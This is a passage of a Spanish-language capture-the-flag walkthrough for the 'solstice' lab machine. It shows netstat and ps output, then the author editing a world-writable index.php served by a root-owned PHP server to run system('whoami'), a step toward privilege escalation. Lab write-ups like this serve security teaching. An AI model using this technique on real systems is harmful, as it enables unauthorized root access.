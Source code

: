 ```bash
tcp      485      0 192.168.1.153:8593      192.168.1.94:46572      ESTABLISHED
tcp        0    136 192.168.1.153:60128     192.168.1.94:443        ESTABLISHED
tcp        0      0 192.168.1.153:8593      192.168.1.94:46560      ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:631                 :::*                    LISTEN     
tcp6       0      0 :::3128                 :::*                    LISTEN     
tcp6       0      0 ::1:25                  :::*                    LISTEN     
tcp6       0      0 :::445                  :::*                    LISTEN     
tcp6       0      0 :::139                  :::*                    LISTEN     
www-data@solstice:/$ 

```

Bueno cuando buscamos por privilegios `SUID` vimos que habia uno llamado `/var/tmp/sv`

```bash
www-data@solstice:/var/tmp/sv$ ls
index.php
www-data@solstice:/var/tmp/sv$ cat index.php 
<?php
echo "Under construction";
?>
www-data@solstice:/var/tmp/sv$ 
```

Si miramos procesos que tengan eso nombre vemos esto el usuario `root` se esta montando un servidor `web`

```bash
www-data@solstice:/var/tmp/sv$ ps -faux | grep "/var/tmp/sv"
www-data  1643  0.0  0.0   6076   884 pts/0    S+   14:41   0:00  |                                   \_ grep /var/tmp/sv
root       529  0.0  0.0   2388   760 ?        Ss   13:12   0:00      \_ /bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
root       551  0.0  2.0 196744 20968 ?        S    13:12   0:00          \_ /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
www-data@solstice:/var/tmp/sv$ 

```

Bueno podemos alterarlo por los permisos que tiene

```bash
www-data@solstice:/var/tmp/sv$ ls -l
total 4
-rwxrwxrwx 1 root root 36 Jun 19  2020 index.php
www-data@solstice:/var/tmp/sv$ 
```

```bash
www-data@solstice:/var/tmp/sv$ nano index.php 
Unable to create directory /var/www/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

Press Enter to continue

www-data@solstice:/var/tmp/sv$ cat index.php 
<?php
	system('whoami');
?>
www-data@solstice:/var/tmp/sv$ 


```
